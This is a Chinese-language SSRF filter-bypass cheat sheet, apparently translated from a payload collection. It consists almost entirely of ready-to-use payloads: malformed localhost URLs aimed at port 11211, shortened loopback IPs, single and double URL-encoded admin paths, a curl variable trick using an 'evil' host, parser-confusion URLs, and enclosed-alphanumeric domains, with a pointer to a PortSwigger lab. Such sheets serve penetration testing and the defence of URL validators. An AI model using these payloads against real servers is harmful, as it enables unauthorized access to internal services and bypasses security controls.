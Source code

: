 ### 使用格式错误的URL绕过

```powershell
localhost:+11211aaa
localhost:00011211aaaa
```

### 使用罕见地址绕过

您可以通过省略零来简化IP地址

```powershell
http://0/
http://127.1
http://127.0.1
```

### 使用URL编码绕过

[对特定URL进行单次或双重编码以绕过黑名单](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)

```powershell
http://127.0.0.1/%61dmin
http://127.0.0.1/%2561dmin
```

### 使用bash变量绕过

（仅curl）

```powershell
curl -v "http://evil$google.com"
$google = ""
```

### 使用技巧组合绕过

```powershell
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```

### 使用封闭字母数字绕过

[@EdOverflow](https://twitter.com/EdOverflow)

```powershell
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

列表：
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

